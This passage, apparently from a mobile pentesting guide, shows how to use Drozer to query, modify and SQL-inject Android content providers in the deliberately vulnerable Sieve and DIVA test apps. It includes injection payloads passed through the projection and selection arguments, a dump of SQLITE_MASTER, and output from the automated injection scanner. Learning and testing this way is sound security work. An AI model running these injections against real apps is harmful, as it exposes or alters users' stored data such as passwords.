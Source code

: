 Quering the database you will learn the **name of the columns**, then, you could be able to insert data in the DB:

![[<../../../images/image (98).png>|]]

![[<../../../images/image (173).png>|]]

_Note that in insert and update you can use --string to indicate string, --double to indicate a double, --float, --integer, --long, --short, --boolean_

### Update content

Knowing the name of the columns you could also **modify the entries**:

![[<../../../images/image (780).png>|]]

### Delete content

![[<../../../images/image (423).png>|]]

### **SQL Injection**

It is simple to test for SQL injection **(SQLite)** by manipulating the **projection** and **selection fields** that are passed to the content provider.\
When quering the Content Provider there are 2 interesting arguments to search for information: _--selection_ and _--projection_:

![[<../../../images/image (784).png>|]]

You can try to **abuse** this **parameters** to test for **SQL injections**:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```
```
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```
```
**Automatic SQLInjection discovery by Drozer**

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
  android_metadata
```